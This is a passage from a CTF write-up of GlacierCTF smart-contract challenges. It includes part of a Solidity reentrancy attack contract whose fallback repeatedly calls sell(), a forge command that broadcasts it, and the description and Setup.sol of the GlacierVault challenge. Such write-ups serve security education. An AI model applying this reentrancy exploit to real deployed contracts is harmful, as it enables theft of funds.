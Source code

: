 ```javascript
        TARGET.buy{value: 10 ether}();
        TARGET.sell(10 ether);
    }
    fallback() external payable { 
        TARGET.sell(10 ether);    
    }
}

```

Run the following command to solve the challenge. 

```bash
forge script script/GlacierCoinAttack.s.sol:AttackScript --rpc-url <RPC-URL> --private-key <REDACTED> --broadcast
```

## GlacierVault [316pts]

```
Description :

"Ascending the glacier under the guidance of your seasoned expedition leader, you encounter a breathtaking sight: a vault intricately carved into the ice, its entrance guarded by a formidable sentinel. This ancient guardian stands watch, an imposing figure resolute in its duty. To gain access to the enigmatic vault and its concealed treasures, you must devise a clever strategy to lull the guardian into a deep, peaceful slumber, a challenge that awaits your resourcefulness and cunning. To get the ticket, run solve-pow.py"

author: J4X

nc chall.glacierctf.com 13377

Attached Files : [GlacierVault.sol, Guardian.sol, Setup.sol]
```

`Setup.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./GlacierVault.sol";
import "./Guardian.sol";

contract Setup {
    Guardian public immutable TARGET; // Contract the player will hack
    constructor() payable {
        // Deploy the victim contract
        GlacierVault vault = new GlacierVault();
        // Deploy the guardian contract
        TARGET = new Guardian(address(vault));
    }
    // Our challenge in the CTF framework will call this function to
    // check whether the player has solved the challenge or not.
    function isSolved() public view returns (bool) {
        return TARGET.asleep();
    }
}
```
